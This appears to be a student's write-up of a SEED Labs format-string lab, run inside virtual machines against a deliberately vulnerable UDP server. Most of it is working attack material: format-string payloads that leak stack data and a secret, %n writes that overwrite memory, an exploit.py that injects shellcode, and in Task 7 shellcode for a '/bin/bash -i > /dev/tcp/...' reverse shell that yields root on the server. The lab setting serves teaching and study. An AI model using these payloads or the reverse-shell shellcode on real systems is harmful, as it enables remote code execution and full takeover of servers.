


# Task 1

Use the default `DUMMY_SIZE` as 100.

```bash
gcc -z execstack -o server server.c
```

Then clone the current VM according to [this manual](https://seedsecuritylabs.org/Labs_16.04/Documents/SEEDVM_VirtualBoxManual.pdf) as the server, whose IP address is `10.0.2.4`. While the client VM has an IP address as `10.0.2.15`.


On the server VM run

```bash
sudo ./server
```
Immediately, it is blocked with
```
The address of the input array: 0xbffff0e0
The address of the secret: 0x08048870
The address of the 'target' variable: 0x0804a044
The value of the 'target' variable (before): 0x11223344
```


On the client VM run

```bash
echo hello | nc -u 10.0.2.4 9090
```

And the server VM prints:
```
The ebp value inside myprintf() is: 0xbfffee28
hello
The value of the 'target' variable (after): 0x11223344
```

```
The ebp value inside myprintf() is: 0xbffff038
hello
The value of the 'target' variable (after): 0x11223344
```

# Task 2

```bash
python -c 'print "AAAA"+"%08X."*80' > badfile
nc -u 10.0.2.4 9090 < badfile
```
Then on the server:
```
The ebp value inside myprintf() is: 0xbffff038
AAAA00000000.00000064.B7FFF918.0804A014.B7FE97A2.B7FFFAD0.BFFFF0E0.00000001.BFFFF038.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.E0B1EB00.00000003.BFFFF0E0.BFFFF6C8.080487E5.BFFFF0E0.BFFFF054.00000010.08048704.00000000.00000010.00000003.82230002.00000000.00000000.00000000.9F810002.0F02000A.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.41414141.
The value of the 'target' variable (after): 0x11223344
```

So the stack looks like:

` ` | `0 1 2 3 ` | `4 5 6 7 ` | `8 9 A B `| `C D E F `
----|----|---| ---  | ---
`0xbfffebd0`|  | `00000000`|`00000064`|`B7FFF918`
`0xbfffec10`| `0804A014`|`B7FE97A2`|`B7FFFAD0`|`BFFFF0E0`
`0xbfffec50`| `00000001`|`BFFFF038`|`00000000`|`00000000`
`0xbfffec90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffecd0`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed10`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed50`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffedd0`| `00000000`|`00000000`|`00000000`|`E0B1EB00`
`0xbfffee10`| `00000003`|`BFFFF0E0`|`BFFFF6C8`|`080487E5`
`0xbfffee50`| `BFFFF0E0`|`BFFFF054`|`00000010`|`08048704`
`0xbfffee90`| `00000000`|`00000010`|`00000003`|`82230002`
`0xbfffeed0`| `00000000`|`00000000`|`00000000`|`9F810002`
`0xbfffef10`| `0F02000A`|`00000000`|`00000000`|`00000000`
`0xbfffef50`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffef90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffefd0`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff010`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff050`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff090`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff0d0`| **`41414141`**| | |

`A` is `0x41`. So the distance can be considered as 80. 

1. `0xbffff0e0`
2. `0xbffff038`
3. `0xbffff0e0` + `80`

The offset is 80.

# Task 3

send any illegal format string to the server. the server will crash.

For instance,

```bash
echo %s%s%s | nc -u 10.0.2.4 9090
```

The server will print an error message (`Segmentation fault`) and exit.

# Task 4

## Task 4.A

```bash
python -c 'print "%9$8x"' > badfile
nc -u 10.0.2.4  < badfile
```

```bash
The ebp value inside myprintf() is: 0xbffff038
bffff038
The value of the 'target' variable (after): 0x11223344
```
`bffff038` is the address of `ebp` in `myprintf`.

## Task 4.B

```bash
python -c 'print "\x70\x88\x04\x08%80$s"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

And the server gives info:

```
The ebp value inside myprintf() is: 0xbffff038
... secret message
The value of the 'target' variable (after): 0x11223344
```

# Task 5

## Task 5.A

```bash
python -c 'print "\x44\xa0\x04\x08%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
The value of the 'target' variable (after): 0x00000004
```

## Task 5.B

0x500 - 0x4 = 0x4FC = 1276
```
python -c 'print "\x44\xa0\x04\x08%1276x%80$n"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

```
The ebp value inside myprintf() is: 0xbffff038
...
0
The value of the 'target' variable (after): 0x00000500
```

## Task 5.C

$$0xFF99 - 8 = 0xFF91 = 65425$$

$$0x10000 - 0xFF91 - 8 = 0x67 = 103$$

```
python -c 'print "\x46\xa0\x04\x08\x44\xa0\x04\x08%65425x%80$hn%103x%81$hn"' > badfile
nc -u 10.0.2.4 9090 < badfile
```


# Task 6

Write `exploit.py` with such a critical part as below:

```{.python}
# Put the code at the end
start = N - len(malicious_code)
content[start:] = malicious_code

ret_addr = 0xbffff038 + 4
str_addr = 0xbffff0e0 + 100  # the length of format string <= 100, it will jump to a NOP then to malicious code
content[:4] = (ret_addr).to_bytes(4, byteorder='little')
content[4:8] = (ret_addr + 2).to_bytes(4, byteorder='little')
higher, lower = divmod(str_addr, 0x10000)
lower = (lower - 8) % (0x10000)
higher = (higher - lower - 8) % (0x10000)
s = "%" + str(lower) + "x%80$hn%" + str(higher) + "x%81$hn"
fmt = s.encode('latin-1')
content[8:8 + len(fmt)] = fmt
```

Then send the content in `badfile` to the server. Now we can execute `/bin/bash -c '/bin/rm /tmp/myfile'` on the server.



# Task 7

Use `shellcode.py` to print the partial shellcode of pushing the string argument `/bin/bash -i > /dev/tcp/10.0.2.15/7070 0<&1 2>&1` into the stack.

```{.python}
#!/usr/bin/python3
import sys;

instruction = r'/bin/bash -i > /dev/tcp/10.0.2.15/7070 0<&1 2>&1'
instruction = instruction + len(instruction)%4 * ' '
instruction_slide = []
push_inst = r'\x68'
sym = '\"'
for i in range(0, len(instruction),4):
	instruction_slide.append(instruction[i:i+4])
instruction_slide.reverse()
for i in range(0, len(instruction_slide)):
	print(sym + push_inst + sym + sym + instruction_slide[i] + sym)
```

Then replace the corresponding shellcode of `/bin/bash -c '/bin/rm /tmp/myfile'` in `malicious_code` with the adjusted output above.

```{.python}
        # Push the 2nd argument into the stack:
        #       '/bin/rm /tmp/myfile' 
        # Students need to use their own VM's IP address
        "\x31\xd2"  # xorl %edx,%edx
        "\x52"  # pushl %edx
        "\x68""    "
        "\x68""2>&1"
        "\x68""<&1 "
        "\x68""70 0"
        "\x68""5/70"
        "\x68"".2.1"
        "\x68""10.0"
        "\x68""tcp/"
        "\x68""dev/"
        "\x68"" > /"
        "\x68""  -i"
        "\x68""bash"
        "\x68""////"
        "\x68""/bin"
        "\x89\xe2"  # movl %esp,%edx
```

On the attacker machine, start a new shell run
```bash
nc -l 7070 -v
``` 

And send the content in `badfile` use another machine to attack the server

```bash
nc -u 10.0.2.4 9090 < badfile
```

Now in the previous shell we get a reverse shell with the root privilege of the server.

